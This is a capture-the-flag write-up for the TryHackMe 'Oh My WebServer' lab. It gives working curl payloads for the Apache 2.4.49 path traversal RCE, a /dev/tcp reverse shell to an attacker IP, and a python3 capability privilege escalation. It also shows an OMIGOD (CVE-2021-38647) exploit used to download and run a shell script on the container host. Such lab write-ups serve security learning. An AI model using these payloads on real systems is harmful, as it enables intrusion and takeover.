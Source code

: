 ```yaml
---
description: https://tryhackme.com/room/ohmyweb
---
```


# Oh My WebServer

## Nmap

```
nmap 10.10.170.23 -p- -Pn -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Starting out on port 80 we arrive at the root page for CONSUULT.

![](<../../../.gitbook/assets/image (2079).png>)

Running a web application scan with `Nessus` against the target web server shows the running version of Apache is vulnerable to a critical exploit.

![](<../../../.gitbook/assets/image (152) (1).png>)

More details regarding the Path Traversal vulnerability are show below.

![](<../../../.gitbook/assets/image (494).png>)

Researching publicly available exploits we find a bash script available on Exploit-db.

**Exploit-db:**[https://www.exploit-db.com/exploits/50383](https://www.exploit-db.com/exploits/50383)

![](<../../../.gitbook/assets/image (1666).png>)

We can take the main part of the script into single command in order to exploit the target system as shown below; we are able read the contents of `/etc/passwd`.

```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; /etc/passwd" "http://10.10.157.208/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```

![](<../../../.gitbook/assets/image (269).png>)

To perform easier exploitation we can send the curl request through a local proxy (burpsuite) in order to capture the request.

```
curl -x localhost:8080 -s --path-as-is -d "echo Content-Type: text/plain; echo; " "http://10.10.82.103/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash"
```

```
POST /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash HTTP/1.1
Host: 10.10.82.103
User-Agent: curl/7.82.0
Accept: */*
Content-Length: 52
Content-Type: application/x-www-form-urlencoded
Connection: close

echo Content-Type: text/plain; echo; cat /etc/passwd
```

![](<../../../.gitbook/assets/image (276).png>)

We can manipulate this request to receive a reverse shell.

```
POST /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash HTTP/1.1
Host: 10.10.82.103
User-Agent: curl/7.82.0
Accept: */*
Content-Length: 77
Content-Type: application/x-www-form-urlencoded
Connection: close

echo Content-Type: text/plain; echo; sh -i >& /dev/tcp/10.8.239.254/4444 0>&1
```

As shown below:

![](<../../../.gitbook/assets/image (225).png>)

From here we find python3 is running on the target system, as such we spawn a python3 shell.

```
/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Performing basic enumeration on the target system we find the IP of the system does not match that of the room.

![](<../../../.gitbook/assets/image (205).png>)

We also find a pretty telling `.dockerenv` file in `/`. These facts combined with the system hostname, we can safely assume we are working within a docker container.

![](<../../../.gitbook/assets/image (1220).png>)

For further enumeration `linpeas.sh` was downloaded onto the target system.

```
curl http://10.8.239.254/linpeas.sh --output linpeas.sh
```

After executing `linpeas.sh` we see that the current user has the ability to escalate privileges through capabilities set for `python3.7`.

![](<../../../.gitbook/assets/image (284).png>)

The following command can be used to escalate to **root** within the docker container.

```
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![](<../../../.gitbook/assets/image (287).png>)

From here, we are able to grab the `user.txt` flag from `/root/`.

![](<../../../.gitbook/assets/image (316).png>)

For further enumeration a static `Nmap` binary was uploaded to the target system.

**Github:** [https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/nmap](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/nmap)

```
./nmap 172.17.0.1 -p 1-10000 -sS -v
```

As the current container is running on 172.17.0.2 we check 172.17.0.1 which, we find is running something on port 5986.

![](<../../../.gitbook/assets/image (2038).png>)

![](<../../../.gitbook/assets/image (150).png>)

Researching the port number we find that "OMI is an [open-source](https://github.com/microsoft/omi) remote configuration management tool developed by Microsoft."

According to the resource linked below this may be vulnerable to CVE-2021-38647, which could allow use to perform remote code execution on the host 172.17.0.1.

**BookHackTricks:** [https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-omi](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-omi)

**CVE:** [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647)

**Blog:** [https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/](https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/)

**GitHub:** [https://github.com/horizon3ai/CVE-2021-38647](https://github.com/horizon3ai/CVE-2021-38647)

Download the Github python script from above onto the target system.

```
curl http://10.8.239.254/omigod.py --output omigod.py
```

Test for command execution:

```
python3 omigod.py -t 172.17.0.1 -c hostname
```

![](<../../../.gitbook/assets/image (1740).png>)

We can then create a bash reverse shell file "shell.sh" and perform RCE on the 172.17.0.1 system to download and execute from our attacking host.

```
python3 omigod.py -t 172.17.0.1 -c "curl http://10.8.239.254/shell.sh --output /tmp/shell.sh"
python3 omigod.py -t 172.17.0.1 -c "bash /tmp/shell.sh"
```

Giving us a root shell on the main host.

![](<../../../.gitbook/assets/image (971).png>)
